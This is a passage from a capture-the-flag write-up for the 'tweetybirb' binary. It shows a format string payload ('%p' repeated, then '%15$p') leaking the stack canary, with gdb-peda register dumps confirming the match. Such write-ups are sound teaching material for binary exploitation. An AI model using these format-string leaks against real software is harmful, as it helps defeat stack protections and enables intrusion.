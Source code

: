 Nice, we got the value of the canary. Now let's leak the canary using format string. We can assume the program has `format string` vulnerability because it prints the input that we give in the first input. So, let's try it out!
```
$ ./tweetybirb       
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7f6fe65ada03 (nil) 0x7f6fe65ad980 0x7ffd77d44210 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520 0x7ffd77d44350 0x9df5241bd4ecd00 0x4012e0 0x7f6fe6415d0a 0x7ffd77d44358 0x177d44669 0x4011f2
hmmm interesting. What about water fowl?
```

Great! We can use this to leak the canary. Now let's break the `main+21` again and then check the rax and use the payload of `%p`, 20 times to brute-force the canary.

#### Check the canary value in the `$rax` register
```
gdb-peda$ b *main+21
Breakpoint 1 at 0x401207
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/tweetybirb 
[----------------------------------registers-----------------------------------]
RAX: 0xb953497b80b9b700 
RBX: 0x0
...
...
```

#### Brute-forcing the format input to get the same value with the `$rax`
```
gdb-peda$ c
Continuing.
What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7ffff7fada03 (nil) 0x7ffff7fad980 0x7fffffffdee0 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x702520 0x7fffffffe020 0xb953497b80b9b700 0x4012e0 0x7ffff7e15d0a 0x7fffffffe028 0x1ffffe349 0x4011f2
hmmm interesting. What about water fowl?
```

From the output above, if we check the value of `$rax` and the output. The value were the same in the 15th %p. So to check it again, we will use %15$p which is the same with %p for 15 times and only get the last value.

#### Check the canary value in the `$rax` register - Payload Check
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/tweetybirb 
[----------------------------------registers-----------------------------------]
RAX: 0xdaec4cdae35f1500 
RBX: 0x0
...
...
```
